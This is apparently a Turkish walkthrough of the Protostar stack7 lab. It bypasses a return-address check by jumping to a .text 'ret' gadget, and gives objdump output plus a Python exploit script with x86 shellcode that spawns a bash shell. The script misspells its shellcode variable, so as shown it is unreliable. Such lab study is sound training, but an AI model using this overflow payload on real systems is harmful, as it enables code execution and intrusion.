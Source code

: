Bu seviyede, eğer `return` adresi 0xb ile başlıyorsa direkt programdan çıkıyor. Soruda ipucu olarak `.text` segmentini kullanarak bu durumu aşabileceğimizi söylüyor.

![alt https://proprogramming.org/memory-layout-of-c-program/](protostarPNG/memory.png "memory")

`.text` segmenti `read-only`dir ve program kodlarının bulunduğu segmenttir. Aynı zamanda yukarıdaki resimde gösterildiği gibi en düşük adrese sahiptir. Bizim engeli aşmamız için `return`de kod akışını `.text`e yönlendirmemiz yeterli.

Bunun için kod akışını `.text` segmentinden herhangi bir `ret`e yönlendirirsek shellcodu başarılı bir şekilde çalıştırabiliriz.

```bash
$ objdump -M intel -d stack7 | grep ret
 8048383:	c3                   	ret    
 8048494:	c3                   	ret    
 80484c2:	c3                   	ret    
 8048544:	c3                   	ret    
 8048553:	c3                   	ret    
 8048564:	c3                   	ret    
 80485c9:	c3                   	ret    
 80485cd:	c3                   	ret    
 80485f9:	c3                   	ret    
 8048617:	c3                   	ret
```

```python
# exploit7.py
shelllcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
garbage = "A" * 80
eip = "\xf9\x85\x04\x08" # .text segmentinden bir return text e selam verip geri geliyoruz stack e
shellcode_addrr = "\xec\xf7\xff\xbf"
nop = "\x90" * 100

print garbage + eip + shellcode_addrr + nop + shellcode
```

